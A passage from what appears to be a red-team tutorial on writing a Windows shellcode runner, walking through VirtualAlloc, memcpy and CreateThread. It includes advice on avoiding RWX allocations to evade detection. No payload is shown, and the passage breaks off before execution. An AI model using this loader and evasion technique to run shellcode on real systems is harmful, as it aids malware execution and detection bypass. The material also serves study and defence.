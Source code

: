 ## Allocating memory

We will be using <strong>VirtualAlloc</strong> API to do this, based on MSDN documentation, this is VirtualAlloc's syntax:

```c
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

If the function succeeds, the return value is the base address of the allocated region of pages.

```cpp
DWORD dwSizeofBuf = sizeof(buf);

PVOID pAddress = VirtualAlloc(NULL, dwSizeofBuf, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

if(pAddress == NULL){
  printf("VirtualAlloc failed with error %x", GetLastError());
};
```

First we calculate the size of the payload or buf variable, then we allocate a memory with that size as a second parameter, and the last parameter is <strong>PAGE_EXECUTE_READWRITE</strong> that gives the allocated region the permissions of READ and WRITE and EXECUTE.

This is just a basic example of how to execute a shellcode but in real world engagements that's a stupid thing to do, allocating a memory directly with PAGE_EXECUTE_READWRITE permissions is a <strong>big big red flag</strong>.

Instead, we can allocate with PAGE_READWRITE permissions then using [VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) to change the protection prior to execution.

Anyway now we have our allocated region ready, next we need to copy our payload inside that region.

## Copying the shellcode

```cpp
memcpy(pAddress, buf, dwSizeofBuf);
```

We simply used <mark>memcpy</mark> function with the Dest as first parameter then Src then the size of Src.

## Executing the payload

The last step is executing our shellcode after we have copied it to an executable region, we can use <strong>CreateThread</strong> API call:

```cpp
HANDLE CreateThread(
  [in, optional]  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  [in]            SIZE_T                  dwStackSize,
  [in]            LPTHREAD_START_ROUTINE  lpStartAddress,
  [in, optional]  __drv_aliasesMem LPVOID lpParameter,
  [in]            DWORD                   dwCreationFlags,
  [out, optional] LPDWORD                 lpThreadId
);
```
A Thread refers to a sequence of instructions that can be executed independently of other sequences of instructions within the same program. Threads are the smallest unit of execution that can be scheduled by an operating system's scheduler.
